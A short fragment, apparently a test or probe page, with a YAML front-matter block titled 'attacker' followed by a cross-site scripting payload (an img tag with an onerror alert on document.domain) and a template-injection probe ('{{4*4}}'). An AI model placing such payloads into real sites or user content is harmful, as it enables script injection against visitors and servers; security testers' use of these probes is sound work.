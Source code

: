 ```yaml
---
group: Intro
weight: 12
title: attacker
---
```

"><img src=/ onerror=alert(document.domain)> {{4*4}}
